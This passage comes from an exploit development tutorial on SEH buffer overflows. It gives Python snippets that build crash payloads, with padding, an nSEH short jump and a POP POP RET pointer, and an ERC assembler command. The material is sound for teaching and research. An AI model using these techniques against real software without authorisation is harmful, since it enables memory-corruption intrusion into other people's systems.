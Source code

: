 <p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/ppr-pointer.PNG"/></p> 
<p align="center"><i>POP, POP, RET pointer.</i></p>

I chose the above pointer to use. You can choose any that fit the requirements listed above. Once a
pointer has been chosen, insert it over the “C”s in the exploit code so it looks something like this:
```
f = open("crash-4.txt", "wb")

buf = b"\x41" * 1008
buf += b"\x42\x42\x42\x42"
buf += b"\xc8\x12\x74\x63" #637412c8 pop edi, pop ebp, ret
buf += b"\x43" * 1988

f.write(buf)
f.close()
```

Then place a break point at 0x637412C8, create a new payload and pass it to the application again. You
should land at your breakpoint. Single step through the POP, POP, RET instruction and return to your
“B”s.

<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/Landing-BBBB-nSEH-Overwrite.PNG"/></p> 
<p align="center"><i>EIP pointing into the B’s from the payload.</i></p>

Now we need to change the “B”s for a short jump, to jump over our SEH record overwrite and land in
our payload buffer. In order to do this we need to generate a short jump instruction and build it into our
payload.

**Command:**
```
ERC –Assemble jmp 0013
```
<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/Assemble-Short-Jump.PNG"/></p> 
<p align="center"><i>Output from ERC –Assemble jmp 0013 command.</i></p>

Now that we have our short jump command and our pointer to a POP, POP, RET instruction set we can
modify our exploit to land us in our buffer of “C”s.
```
f = open("crash-5.txt", "wb")

buf = b"\x41" * 1008
buf += b"\xEB\x0B\x90\x90"
buf += b"\xc8\x12\x74\x63" #637412c8 pop edi, pop ebp, ret
buf += b"\x43" * 1988

f.write(buf)
f.close()
```
